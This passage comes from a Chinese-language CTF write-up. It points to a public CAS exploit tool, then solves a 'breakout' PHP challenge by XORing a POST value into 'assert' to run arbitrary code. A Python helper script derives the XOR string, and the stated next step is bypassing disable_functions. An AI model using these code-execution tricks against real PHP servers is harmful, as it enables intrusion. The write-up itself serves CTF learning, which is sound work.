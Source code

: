 到达任意代码执行使用的是一些老套路，参考的是rctf2020。最后使用工具或者自己写一个简单的回显

就能打到cas了，工具可以试着用这个 https://github.com/potats0/CasExp

###  easyGO

这个直接看[官方文档](https://blog.csdn.net/weixin_43610673/article/details/121426951?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163793652716780274159451%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=163793652716780274159451&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2allfirst_rank_ecpm_v1~rank_v31_ecpm-5-121426951.first_rank_v2_pc_rank_v29&utm_term=%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%982021web&spm=1018.2226.3001.4187)吧

###  breakout

考点：异或构造`assert`，绕过`disable_functions`

题目：

首先打开题目，就是一段代码

```php
<?php 
    highlight_file(__FILE__); 
// 这些奇怪的符号是什么呢?字符串之间还能异或的吗? 
// php5.6里什么函数能够执行任意代码? 
	$a = $_POST['v'] ^ '!-__)^'; 
// ctf常见的验证码哦!纯数字呢 
	if (substr(md5($_POST['auth']),0,6) == "666666") { 		    		$a($_POST['code']); 
	}
?>
```

**思路**：由注释，我们知道需要用到`异或构造`，`php5.6里什么函数能够执行任意代码?`我的第一反应就是使用`assert`，所以我们先异或构造`assert`,然后绕过`if语句（利用脚本直接爆）`，给`code`传参，直接执行任意命令。



在php中，字符串是能异或的,两个字符串异或相当于每个对应位置的字符的ascii码异或后再转成字符的结果,比如'@'^'!'='a'。

看到异或后面字符是6个字符，所以前面`post-v`也需要6个字符，然后生成一个函数名，这更加确定是`assert`函数，直接给脚本:

官方的脚本：

```python
def burte1(target, part):
    if len(part) != len(target):
        return ""
    clist = list(" !\"#$%&'()*+,-./:;<=>?[\]^_@`{|}~")
    str2 = part
    str1 = ""
    while 1:
        if len(str1) >= len(str2):
            break
        flag = False
        for char in clist:
            target_char = target[len(str1)]
            part_char = part[len(str1)]
            if bin(ord(char) ^ ord(part_char))[2:] == bin(ord(target_char))[2:]:
                str1 += char
                flag = True
                break
        if not flag:
            break
    return str1
print(burte1("assert","!-__)^"))
```
